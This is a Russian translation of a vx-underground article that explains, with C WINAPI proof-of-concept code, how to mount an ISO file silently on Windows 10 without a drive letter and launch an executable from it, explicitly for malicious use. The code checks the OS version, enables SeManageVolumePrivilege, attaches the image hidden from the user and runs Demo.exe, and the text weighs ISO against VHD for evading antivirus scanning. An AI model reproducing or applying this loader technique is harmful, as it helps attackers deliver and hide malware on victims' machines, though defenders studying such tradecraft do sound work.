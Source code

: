 ```yaml
---
layout: post
title: Использование виртуализации Windows во вредоносных целях
category: [translations]
tag: [windows, malware]
---
```


**Коллекция vx-underground // [smelly__vx](https://twitter.com/RtlMateusz)**

![](/assets/images/translations/virtualization/img6.jpg)


**Введение:**

Несколько недель назад vx-underground увидел интересные твиты от Microsoft Security Intelligence. Там обсуждалась статья о [вредоносной кампании, использующей ISO-файлы](https://twitter.com/MsftSecIntel/status/1257324141041991681). Похоже, что данная кампания стала довольно популярной, как и [другие](https://www.mlstg.com/2020/01/14/iso-files-are-being-used-to-deliver-malware/), использовавшие ISO файлы, такие как [Phobos ransomware](https://www.2-spyware.com/remove-phobos-ransomware-virus.html), [ZLoader](https://www.livemint.com/technology/tech-news/covid-centric-malware-attacks-drop-in-may-attacks-related-to-jobs-rise-report-11591291325562.html), а также [LokiBot и Nanocore](https://www.scmagazineuk.com/iso-images-used-spread-lokibot-nanocore-malware/article/1589165). В таком подходе к заражению нет ничего нового, поскольку злоумышленники [уже давно](https://isc.sans.edu/diary/HSBC-themed+malspam+uses+ISO+attachments+to+push+Loki+Bot+malware/22942) используют вредоносные ISO. Однако, насколько мне известно, я еще не видел кода, точно демонстрирующего, как успешно использовать  вредоносный ISO файл, кроме довольно старой [статьи SPTH](https://www.vx-underground.org/archive/VxHeaven/lib/vsp09.html). Также неудивительно, что данный способ - это скорее тренд, поскольку виртуализация сама по себе не поддерживалась ОС Windows до 22 октября 2009 года. [[1](https://docs.microsoft.com/en-us/windows/win32/api/virtdisk/nf-virtdisk-createvirtualdisk)] [[2](https://en.wikipedia.org/wiki/Windows_7)]

Если вы будете исследовать, [как программно смонтировать ISO образ](https://stackoverflow.com/questions/24396644/programmatically-mount-a-microsoft-virtual-hard-drive-vhd), вы будете очень разочарованы. Код, показанный в этом ответе StackOverflow, ошибочен. Вызываемые функции похожи на правду, но они слишком избыточны, для достижения конечной цели. Кроме того, в ответе говорится - "Внимание: SetVolumeMountPoint требует админских прав". Это тоже неверно. В любом случае, я пишу это не для того, чтобы устраивать срач по поводу вопросов и ответов на StackOverflow. Суть в том, что код, иллюстрирующий как монтировать ISO и/или VHD образы, вводит в заблуждение и разбросан по сети. Я надеюсь прояснить ситуацию и помочь читателю обрести новые знания

**Что будет обсуждаться в этой статье:**

В этой статье будет показано, как правильно смонтировать ISO файл для использования во вредоносных целях. Нашей целью будет монтирование ISO без указания видимого пути для пользователя и/или присвоения буквы диску . В этой статье мы также сравним подход ISO vs VHD/VHDX.

**Что в этой статье НЕ будет обсуждаться:**

Здесь не будет показано, как программно генерировать ISO/VHD образы. Это можно сделать программно с помощью WINAPI - но это не было моей целью, когда я начал спускаться в эту кроличью нору. Кроме того, в этой статье нет тестов техники с различными антивирусами. Я покажу просто PoC.

**Требования:**

Код в статье использует C WINAPI. Если вы не знакомы с C или WINAPI, эта статья может быть трудной для понимания. Однако, если вы настойчивы в своем понимании, то никаких проблем не будет.

Я выбрал C, потому что мне не нравится юзать C#.NET или Python для написания малвари.

**ISO, VHD и Virtual Storage API:**

В чем разница между ISO файлом и VHD файлом? Разница в том, что ISO файл является цифровой копией диска (например CD/DVD), а VHD - это виртуальный жесткий диск. Оба могут быть виртуализированы и смонтированы виндой, оба используют похожий API, оба обязаны следовать Virtual Storage API.

Понятно, что ISO файлы являются намного худшим форматом, для использования во вредоносных целях, как правильно заметил Will Dormann из Carnegie Mellon University в статье  [The Dangers of VHD and VHDX Files](https://insights.sei.cmu.edu/cert/2019/09/the-dangers-of-vhd-and-vhdx-files.html). Там говорится о неспособности многих антивирусов программно монтировать VHD/VHDX файлы, хотя по всей видимости они могут парсить ISO. На самом деле, данная статья не нацелена на то, чтобы погружаться в глубинные механизмы работы антивирусов. Я считаю важным заявить об известных проблемах, которые может представлять этот метод.

Почему ISO, а не VHD/VHDX? Данная статья задумывалась, как описание методов используемых атакующими. ISO проще скрыть, чем VHD/VHDX. VHD файлы могут быть минимум 2 Мб. Верно?

![](/assets/images/translations/virtualization/img25.jpg)


Хотя винда и говорит нам о 2 Мб, на самом деле это неправда. Указание размера в 2 Мб вызывает ошибку ERROR_INVALID_PARAMETER или такую, как на скрине: 

![](/assets/images/translations/virtualization/img29.jpg)


Если укажем 3 Мб, то:

![](/assets/images/translations/virtualization/img30.jpg)


Самый маленький VHD файл, который я смог создать - это 5 мегабайтный GUID Partition Table (GPT).

![](/assets/images/translations/virtualization/img31.jpg)


С другой стороны, если мы возьмем какую-нибудь тулзу по генерации ISO (здесь мы используем [MagicISO Maker](http://www.magiciso.com/)), то мы сможем создать намного меньший файл:

![](/assets/images/translations/virtualization/img37.jpg)

Благодаря своим размерам, ISO имеет огромные преимущества перед VHD файлами. Вам наверняка интересно, что общего между ISO и VHD. ISO, также как и VHD/VHDX
файлы, используют [Virtual Storage API](https://docs.microsoft.com/en-us/windows/win32/api/_vstor/). К тому же, на первый взгляд, работа с ISO файлам никак не упоминается в [документации Virtual Storage API](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/dd323654(v%3dvs.85)). Так и есть, до тех пор пока вы не начнете читать про монтирование виртуальных дисков, с помощью [AttachVirtualDisk](https://docs.microsoft.com/en-us/windows/win32/api/virtdisk/nf-virtdisk-attachvirtualdisk?redirectedfrom=MSDN), где вы найдете следующее: Смонтируйте виртуальный диск (VHD) или образ CD/DVD, с помощью подходящего VHD провайдера (_Attaches a virtual hard disk (VHD) or CD or DVD_ _image file (ISO) by locating an appropriate VHD provider to accomplish the attachment.). _Эта строчка намекает на то, что ISO и VHD используют схожий API (за маленьким исключением, которое мы обсудим)_.

Определение функции [OpenVirtualDisk](https://docs.microsoft.com/en-us/windows/win32/api/virtdisk/nf-virtdisk-openvirtualdisk): 

```cpp
DWORD OpenVirtualDisk(
  PVIRTUAL_STORAGE_TYPE         VirtualStorageType,
  PCWSTR                        Path,
  VIRTUAL_DISK_ACCESS_MASK      VirtualDiskAccessMask,
  OPEN_VIRTUAL_DISK_FLAG        Flags,
  POPEN_VIRTUAL_DISK_PARAMETERS Parameters,
  PHANDLE                       Handle
);
```


Первый параметр, VirtualStorageType, должен быть валидным указателем на структуру [VIRTUAL_STORAGE_TYPE](https://docs.microsoft.com/en-us/windows/win32/api/virtdisk/ns-virtdisk-virtual_storage_type):


```cpp
typedef struct _VIRTUAL_STORAGE_TYPE {
  ULONG DeviceId;
  GUID  VendorId;
} VIRTUAL_S
```

Поле DeviceId должно быть равно VIRTUAL_STORAGE_TYPE_DEVICE_ISO, а поле VendorId - VIRTUAL_STORAGE_TYPE_VENDOR_MICROSOFT.

Если вы все сделали правильно, то все остальное будет идентичным, как и в случае с VHD/VHDX файлом.

**Код:**

Мой [PoC ](https://vxug.fakedoma.in/papers/VXUG/Exclusive/WeaponizingWindowsVirtualizationCode.txt)содержит: код проверки запускаемся ли мы на Windows 10, получение пути до ISO файла и проверку необходимых прав. Далее приведены основные куски кода:


1) Получение [PEB](https://en.wikipedia.org/wiki/Process_Environment_Block), для проверки среды выполнения (Windows 10):

```cpp
if​ (Peb->OSMajorVersion != ​0x0a​)
goto​ FAILURE;
```

2) Вызов [GetEnvironmentVariable](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getenvironmentvariable) с аргументом [USERPROFILE](https://ss64.com/nt/syntax-variables.html), для получения текущего пользователя

3) Если вызов GetEnvironmentVariable был удачным, добавляем строку “\\Desktop\\Demo.iso”

```cpp
if​ (GetEnvironmentVariableW(​L"USERPROFILE"​, lpIsoPath, DEFAULT_DATA_ALLOCATION_SIZE) == ​0​) 

goto​ FAILURE;
else
    wcscat(lpIsoPath, ​L"\\Desktop\\Demo.iso"​);
```


4) Проверяем security токен. Если у нас нет прав ​SeManageVolumePrivilege​, то запрашиваем. 

```cpp
if​ (!OpenThreadToken(GetCurrentThread(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, FALSE, &hToken))
{
    if​ (!ImpersonateSelf(SecurityImpersonation))
        goto​​ FAILURE;

    if​ (!OpenThreadToken(GetCurrentThread(), TOKEN_ADJUST_PRIVILEGES |      TOKEN_QUERY, FALSE, &hToken))
    {
​        goto​ FAILURE;
    }
}

if​ (!LookupPrivilegeValueW(​NULL​, ​L"SeManageVolumePrivilege"​, &Luid))
    goto​ FAILURE;

Tp.PrivilegeCount = ​1​;
Tp.Privileges[​0​].Luid = Luid;
Tp.Privileges[​0​].Attributes = SE_PRIVILEGE_ENABLED;

if​ (!AdjustTokenPrivileges(hToken, FALSE, &Tp, ​sizeof​(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)​NULL​, ​NULL​)) 
    goto​ FAILURE;
```


5) Вызываем [OpenVirtualDisk](https://docs.microsoft.com/en-us/windows/win32/api/virtdisk/nf-virtdisk-openvirtualdisk) с корректно инициализированной структурой [VIRTUAL_STORAGE_TYPE](https://docs.microsoft.com/en-us/windows/win32/api/virtdisk/ns-virtdisk-virtual_storage_type) \


```cpp
Parameters.Version = OPEN_VIRTUAL_DISK_VERSION_1; Parameters.Version1.RWDepth = OPEN_VIRTUAL_DISK_RW_DEPTH_DEFAULT;

if​(OpenVirtualDisk(&VirtualStorageType, lpIsoPath,
VIRTUAL_DISK_ACCESS_ATTACH_RO | VIRTUAL_DISK_ACCESS_GET_INFO, OPEN_VIRTUAL_DISK_FLAG_NONE, &Parameters, &VirtualObject) != ERROR_SUCCESS)

{
    goto​ FAILURE;
}
```

6) Вызываем [​AttachVirtualDisk​ ](https://docs.microsoft.com/en-us/windows/win32/api/virtdisk/nf-virtdisk-attachvirtualdisk) с флагом ATTACH_VIRTUAL_DISK_FLAG выставленным в ATTACH_VIRTUAL_DISK_FLAG_READ_ONLY и ATTACH_VIRTUAL_DISK_FLAG_NO_DRIVE_LETTER

```cpp
AttachParameters.Version = ATTACH_VIRTUAL_DISK_VERSION_1; 

if​ (AttachVirtualDisk(VirtualObject, ​0​, ATTACH_VIRTUAL_DISK_FLAG_READ_ONLY | ATTACH_VIRTUAL_DISK_FLAG_NO_DRIVE_LETTER,
0​, &AttachParameters, ​0​) != ERROR_SUCCESS)
{
    goto​ FAILURE;
}
```

7) Вызываем [GetVirtualDiskPhysicalPath​ ](https://docs.microsoft.com/en-us/windows/win32/api/virtdisk/nf-virtdisk-getvirtualdiskphysicalpath)для получения пути к примонтированному ISO

8) Если вызов [GetVirtualDiskPhysicalPath​ ](https://docs.microsoft.com/en-us/windows/win32/api/virtdisk/nf-virtdisk-getvirtualdiskphysicalpath)был удачным, то добавляем к этому пути `“\\Demo.exe”`

```cpp
if​ (GetVirtualDiskPhysicalPath(VirtualObject, &dwData, lpIsoAbstractedPath) != ERROR_SUCCESS) 
    goto​ FAILURE;

else
    wcscat(lpIsoAbstractedPath, ​L"\\Demo.exe"​);
```

9) Вызываем [CreateProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)
10) В конце подчищаем ресурсы

```cpp
if​ (!CreateProcess(lpIsoAbstractedPath, ​NULL​, ​NULL​, ​NULL​, FALSE, NORMAL_PRIORITY_CLASS, ​NULL​, ​NULL​, &Info, &ProcessInformation))
{
    goto​ FAILURE;
}

if​ (VirtualObject)
    CloseHandle(VirtualObject);

if​ (hToken)
    CloseHandle(hToken);

return​ ERROR_SUCCESS;
```

